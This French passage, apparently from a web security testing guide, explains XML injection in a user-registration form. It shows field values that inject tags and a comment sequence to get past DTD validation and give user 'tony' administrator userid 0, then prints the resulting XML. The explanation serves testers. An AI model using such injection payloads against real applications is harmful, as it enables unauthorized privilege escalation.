 Le fichier XML résultant est bien formé. De plus, il est probable que, pour l'utilisateur tony, la valeur associée à la balise userid soit celle apparaissant en dernier, c'est-à-dire 0 (l'ID administrateur). En d'autres termes, nous avons injecté un utilisateur avec des privilèges administratifs.

Le seul problème est que la balise userid apparaît deux fois dans le dernier nœud utilisateur. Souvent, les documents XML sont associés à un schéma ou à une DTD et seront rejetés s'ils ne s'y conforment pas.

Supposons que le document XML est spécifié par la DTD suivante :

```xml
<!DOCTYPE users [
    <!ELEMENT users (user+) >
    <!ELEMENT user (username,password,userid,mail+) >
    <!ELEMENT username (#PCDATA) >
    <!ELEMENT password (#PCDATA) >
    <!ELEMENT userid (#PCDATA) >
    <!ELEMENT mail (#PCDATA) >
]>
```

Notez que le nœud userid est défini avec la cardinalité 1. Dans ce cas, l'attaque que nous avons montrée précédemment (et d'autres attaques simples) ne fonctionnera pas si le document XML est validé par rapport à sa DTD avant tout traitement.

Cependant, ce problème peut être résolu, si le testeur contrôle la valeur de certains nœuds précédant le nœud incriminé (userid, dans cet exemple). En fait, le testeur peut commenter un tel nœud, en injectant une séquence de début/fin de commentaire :

```txt
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```

Dans ce cas, la base de données XML finale est :

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password><!--</password>
        <userid>500</userid>
        <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
    </user>
</users>
```
